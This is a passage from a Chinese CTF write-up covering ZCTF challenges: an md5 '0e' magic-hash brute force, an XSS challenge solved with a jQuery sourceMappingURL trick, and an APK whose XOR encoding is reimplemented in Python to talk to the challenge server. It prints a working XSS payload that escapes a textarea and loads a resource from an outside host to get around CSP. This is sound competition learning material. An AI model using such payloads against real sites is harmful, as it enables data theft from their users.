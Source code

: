 限制flag参数的md5必须为一个固定的0e开头的md5，并在同时在字符串中包含zctf，然后会输出flag。写好代码爆破一番得到zctf00=a8。得到flag

<br>

**Web-Find my eyes**

一开始会觉得是一个博客站，逻辑比较复杂，后来发现其实只有contact.php 文件中有一个留言功能，结合网站部署有csp。猜测是xss漏洞。然后测试4个参数。只有textarea有过滤，其他地方感觉不能正常写入html。然后textarea的过滤相当严格。找了很多用来加载外部资源的html关键字都被过滤。然后大师傅发现是高版本的jquery库，可以利用sourceMappingURL加载外部资源。最后成功的payload是

```
&lt;/textarea&gt;&lt;script&gt;var a=1//@ sourceMappingURL=//xss.site&lt;/script&gt;
```

在服务器的http request里面user-agent中发现flag

**<br>**

**Web-easy apk**

打开APK后发现有两个窗口，一个用于验证用户名密码，一个用于提交邮件，APK会将用户名密码等信息提交到远程服务器做验证，提交前会对用户的输入做一次简单的加密。

加密函数位于libnative-lib.so中的Change函数中，如下，主要是使用密钥对数据进行循环的异或加密。在加密前会将输入字符串逆序。加密后转化为十六进制。

[![](./img/85578/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010ef9a8ded95fb374.png)

在加密前，changekey函数会对密钥做简单的修改，大概的逻辑是对原字符串每隔2个取一个字符。因此，在java层传入的密钥“1234567890”经过变换后成为“1470”。

[![](./img/85578/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0120c0ca7e5f83f062.png)

 

 因此根据上面的分析，可以写出与原APK逻辑一致的Python脚本

```
import requests
def enc(data):
    key = '1470' * 30
    data = data[::-1]
    result = []
    for i in range(len(data)):
        tmp = ord(key[i]) ^ ord(data[i])
        result.append(tmp)
    return ''.join(['%.2x' % i for i in result])
def step1(username, password):
    reply = requests.post('http://58.213.63.30:10005/', data={'username': enc(username), 'password': enc(password)})
    print reply.text
    return reply.json()
def step2(username, password, mail, title, body):
    # body=40454641&amp;password=0305&amp;title=404546&amp;username=&amp;mail=4645
    reply = requests.post('http://58.213.63.30:10005/mail.php',
                          data={'username': enc(username),
                                'password': enc(password),
                                'mail': enc(mail),
                                'title': enc(title),
                                'body': enc(body)})
    print reply.text
    return reply.json()
if __name__ == '__main__':
    username = '1'
    password = '2'
    mail = '3'
    title = '4'
    body = '5'
    if step1(username, password)['result'] == 'OK':
        step2(username, password, mail, title, body)
```
